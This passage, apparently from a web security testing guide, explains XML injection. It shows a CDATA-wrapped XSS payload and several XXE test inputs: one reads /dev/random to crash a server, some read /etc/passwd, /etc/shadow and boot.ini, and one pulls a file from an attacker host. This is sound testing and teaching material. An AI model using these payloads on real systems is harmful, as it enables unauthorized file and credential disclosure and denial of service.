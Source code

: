  ```
 <html>
  <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
 </html>
 ```

During the processing, the CDATA section delimiters are eliminated, generating the following HTML code:

```
<script>alert('XSS')</script>
```

The result is that the application is vulnerable to XSS.


**External Entity:**
The set of valid entities can be extended by defining new entities. If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems. This behavior exposes the application to XML eXternal Entity (XXE) attacks, which can be used to perform denial of service of the local system, gain unauthorized access to files on the local machine, scan remote machines, and perform denial of service of remote systems.


To test for XXE vulnerabilities, one can use the following input:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```


This test could crash the web server (on a UNIX system), if the XML parser attempts to substitute the entity with the contents of the /dev/random file.


Other useful tests are the following:

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```
